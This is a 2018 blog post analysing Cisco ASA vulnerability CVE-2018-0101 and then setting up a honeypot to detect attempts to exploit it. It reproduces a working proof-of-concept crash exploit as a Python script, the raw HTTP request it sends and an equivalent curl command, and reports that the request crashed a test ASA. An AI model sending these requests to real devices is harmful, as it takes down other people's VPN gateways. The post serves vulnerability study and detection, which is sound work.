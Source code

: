 ```yaml
---
layout: post
title:  "Exploiting & Honeypotting Cisco ASA CVE-2018-0101"
tagline: "A closer look at CVE-2018-0101"
description: "A closer look at CVE-2018-0101 detailing how to exploit it and how to create a honeypot to detect it."
date:   2018-02-10
comments: true
image:
  feature: blog/3/feature.jpg
  hero: blog/3/header.jpg
  tags: [notes, cisco, exploits, honeypot]
---
```


## Summary
**On 29 January 2018** [CVE-2018-0101](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180129-asa1) - A Remote Code Execution and Denial of Service Vulnerability for Cisco ASA Web VPN - was published featuring a CVSS Base Score of 10.

For those unfamiliar, Common Vulnerability Scoring System or CVSS is a standard used for assessing the severity of vulnerabilities. The score ranges from 0 to 10 with 10 being the most serious.


## Proof of concept

**On 02 February 2018** [@saidelike](https://twitter.com/saidelike) gave a talk titled ["Robin Hood vs Cisco ASA Anyconnect"](https://recon.cx/2018/brussels/resources/slides/RECON-BRX-2018-Robin-Hood-vs-Cisco-ASA-AnyConnect.PDF) at Recon Brussels in which he included some XML on slide 19.

![](/img/posts/3/slide19.png)
*Slide 19 from Robin Hood vs Cisco ASA Anyconnect*

**On 5 February 2018** a proof of concept was published by [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius), and [@aleph__naught](https://twitter.com/Aleph___Naught) on [pastebin](https://pastebin.com/YrBcG2Ln). At first glance it appears to be a python script that sends a request to the server using the XML found earlier in the slides and some other required headers.

```#
# Cisco ASA CVE-2018-0101 Crash PoC
#
# We basically just read @saidelike slides:
# https://www.nccgroup.trust/globalassets/newsroom/uk/events/2018/02/reconbrx2018-robin-hood-vs-cisco-asa.pdf
#
# @zerosum0x0, @jennamagius, @aleph___naught
#

import requests, sys

headers = {}
headers['User-Agent'] = 'Open AnyConnect VPN Agent v7.08-265-gae481214-dirty'
headers['Content-Type'] = 'application/x-www-form-urlencoded'
headers['X-Aggregate-Auth'] = '1'
headers['X-Transcend-Version'] = '1'
headers['Accept-Encoding'] = 'identity'
headers['Accept'] = '*/*'
headers['X-AnyConnect-Platform'] = 'linux-64'
headers['X-Support-HTTP-Auth'] = 'false'
headers['X-Pad'] = '0000000000000000000000000000000000000000'

xml = """<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>
"""

r = requests.post(sys.argv[1], data = xml, headers = headers, verify=False, allow_redirects=False)

print(r.status_code)
print(r.headers)
print(r.text)

```

So let's go ahead and test it out!

```
wget https://pastebin.com/raw/YrBcG2Ln -O poc-cve-2018-0101.py
python3 poc-cve-2018-0101.py https://ciscoasa.glitchwitch.io
```

Using the PoC results in the following request, confirming my earlier first glance reading.

```
POST / HTTP/1.1
Host: ciscoasa.glitchwitch.io
User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Aggregate-Auth: 1
X-Transcend-Version: 1
X-AnyConnect-Platform: linux-64
X-Support-HTTP-Auth: false
X-Pad: 0000000000000000000000000000000000000000
Content-Length: 156

<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>

```

With this in mind, the same request can be made using curl.
```
curl -i -s -k  -X $'POST' \
    -H $'Host: ciscoasa.glitchwitch.io' -H $'User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: application/x-www-form-urlencoded' -H $'X-Aggregate-Auth: 1' -H $'X-Transcend-Version: 1' -H $'X-AnyConnect-Platform: linux-64' -H $'X-Support-HTTP-Auth: false' -H $'X-Pad: 0000000000000000000000000000000000000000' -H $'Content-Length: 156' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"UTF-8\"?>\x0a<config-auth client=\"a\" type=\"a\" aggregate-auth-version=\"a\">\x0a    <host-scan-reply>A</host-scan-reply>\x0a</config-auth>\x0a' \
    $'https://ciscoasa.glitchwitch.io/'
```    

Ultimately if the server is vulnerable this request should cause the system to crash. In tests on Cisco ASA 9.2(4), this was the case.

## Honey Pot
Okay, so we've got a working PoC in both python and a curl request. Now let's setup a honey pot!

**On 08 February 2018** [@omercent](https://twitter.com/omercnet) from cymmetria [released a honeypot tool](https://cymmetria.com/blog/honeypot-cisco-asa-vulnerability/) for the detection of this vulnerability. So let's go ahead and get that setup.
```
git clone https://github.com/Cymmetria/ciscoasa_honeypot.git
cd ciscoasa_honeypot
pip3 install --upgrade -r requirements.txt
```
Once that's done we can start it up.
```
python3 asa_server.py --help
Usage: asa_server.py [OPTIONS]

  A low interaction honeypot for the Cisco ASA component capable of
  detecting CVE-2018-0101, a DoS and remote code execution vulnerability

Options:
  -h, --host TEXT         Host to listen
  -p, --port INTEGER      Port to listen
  -i, --ike-port INTEGER  Port to listen for IKE
  -s, --enable_ssl        Enable SSL
  -c, --cert TEXT         Certificate File Path (will generate self signed
                          cert if not supplied)
  -v, --verbose           Verbose logging
  --help                  Show this message and exit.

python3 asa_server.py -p 443 -s
```

Now if we run the PoC on our honeypot we should see the following

```
CRITICAL:root:{'data': ['A'], 'src': '10.0.0.32', 'spt': 41392}
```

## Conclusion

CVE-2018-0101 is a critical flaw and is more than just a DoS vulnerability. The vulnerability also allows remote unauthenticated attackers to perform Remote Code Execution. Although at the time of writing this, no PoC code currently exists to demonstrate the rce portion.

A big thanks to [@saidelike](https://twitter.com/saidelike), [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius),  [@aleph__naught](https://twitter.com/Aleph___Naught), and [@omercent](https://twitter.com/omercnet) for all of their work.
